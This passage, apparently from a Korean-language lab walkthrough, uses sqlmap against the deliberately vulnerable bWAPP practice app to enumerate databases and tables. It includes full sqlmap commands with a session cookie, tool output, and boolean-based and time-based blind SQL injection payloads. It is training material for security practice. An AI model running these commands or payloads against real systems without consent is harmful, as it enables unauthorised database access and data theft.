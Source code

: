 * [쿠키매니저](https://addons.mozilla.org/en-US/firefox/addon/a-cookie-manager/)

![image](https://user-images.githubusercontent.com/28076542/52172930-487d8a80-27bd-11e9-852d-7a1e2670713d.png)

2. 데이터 베이스 이름 알아오기

```bash
sqlmap -u "http://192.168.190.143/bWAPP/sqli_4.php?title=test&action=search" --cookie="PHPSESSID=b7269975b579606d86426fca0c3b0e56;security_level=0" --dbs --level=3 --risk=3
```

* 긴 시간이 지나면...

```bash
available databases [5]:
[*] bWAPP
[*] drupageddon
[*] information_schema
[*] mysql
[*] testdb

[18:04:32] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.190.143'

[*] shutting down at 18:04:32
```

* 데이터 베이스 이름들을 알아오는데 성공하였으니 테이블을 알아오기

3. 데이터 베이스 테이블 알아오기

```bash
sqlmap -u "http://192.168.190.143/bWAPP/sqli_4.php?title=test&action=search" --cookie="PHPSESSID=b7269975b579606d86426fca0c3b0e56;security_level=0"  -D bWAPP --tables
       ___
       __H__
 ___ ___[.]_____ ___ ___  {1.1.11#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:11:00

[18:11:00] [INFO] resuming back-end DBMS 'mysql' 
[18:11:00] [INFO] testing connection to the target URL
[18:11:00] [WARNING] potential CAPTCHA protection mechanism detected
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: title (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: title=test' OR NOT 5748=5748-- XIlf&action=search

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=test' AND (SELECT * FROM (SELECT(SLEEP(5)))XKkh)-- ASfU&action=search
---
[18:11:00] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 5.0.12
[18:11:00] [INFO] fetching tables for database: 'bWAPP'
[18:11:00] [INFO] fetching number of tables for database 'bWAPP'
[18:11:00] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
```